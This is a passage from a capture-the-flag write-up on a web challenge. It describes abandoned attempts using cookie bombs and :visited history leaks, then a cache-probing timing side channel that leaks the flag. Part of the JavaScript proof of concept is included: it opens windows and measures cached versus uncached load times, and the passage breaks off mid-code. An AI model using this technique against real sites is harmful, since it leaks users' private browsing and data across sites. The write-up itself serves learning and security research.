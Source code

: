 My teammate and I also discussed whether we could use [cookie bomb](https://blog.huli.tw/2021/07/10/cookie-bomb/) to do something since we can set cookies, but we didn't find a way after the discussion.

Then I tried to use the method from [pbctf 2021 Vault](http://blog.bawolff.net/2021/10/write-up-pbctf-2021-vault.html) to leak history using `a:visited`. After modifying the POC in the above article, it worked, but it didn't work when I sent it to the admin bot. I tested it on my local machine and found that it was probably because of headless mode, where the rendering time is always 16ms regardless of how it is rendered.

After trying everything I could think of, [lebr0nli](https://lebr0nli.github.io/blog/) posted a POC that uses cache probing, which was inspired by [maple's writeup](https://blog.maple3142.net/2021/10/11/pbctf-2021-writeups/#vault). The key point is that "this POC can be used on other challenges to run on the same site", for example, if the URL of another challenge is `https://xtra-salty-sardines.web.actf.co/`, using fetch from there will also result in the same cache key `(https://actf.co, https://actf.co, https://sustenance.web.actf.co/?m=xxx)`, because the cache key only looks at eTLD+1, so the cache key will be the same for same-site websites.

But the problem he encountered was that it could run locally, but no matter what on the remote, it was always a false positive. So I followed his POC and tried to return more numbers, and found that the problem was that the server was running abnormally fast. For example, those with cache took 3ms, and those without cache only took 5ms, with a very small difference, even the timestamp part was, probably within 10ms after `window.open`.

Therefore, I modified the code and directly calculated the average time with cache on the remote, and successfully leaked the flag. The code is as follows:

https://gist.github.com/aszx87410/e369f595edbd0f25ada61a8eb6325722

``` js
// to hang the connection
fetch('https://deelay.me/20000/https://example.com')

// NOTE: we will calculate this baseline before doing the attack
var baseLine = 3.2
const sleep = ms => new Promise((resolve) => setTimeout(resolve, ms))

go()
async function go() {
  await calculateBaseline()
  main()

  async function calculateBaseline() {
    var m = Math.random()
    let win = window.open('https://sustenance.web.actf.co/?m=cached_' + m)
    
    // NOTE: this number can be decreased by detecting window load
    await sleep(500)
    win.close()
    let total = 0
    for(let i=1; i<=5; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=cached_' + m)
      total += ts
      report(`Cached time, round: ${i}, ${ts}ms`)
    }
    // NOTE: 0.5 is just a random guess
    baseLine = (total/5) + 0.5
    report(`Baseline: ${baseLine}`)
    
    // NOTE: adjust baseline, should not be more than 3 ms based on previous testing
    if (baseLine > 3) {
      baseLine = 3
    }
    for(let i=1; i<=3; i++) {
      let ts = await getLoadTime('https://sustenance.web.actf.co/?m=not_cached_' + m)
      report(`Not Cached time, round: ${i}, ${ts}ms`)
```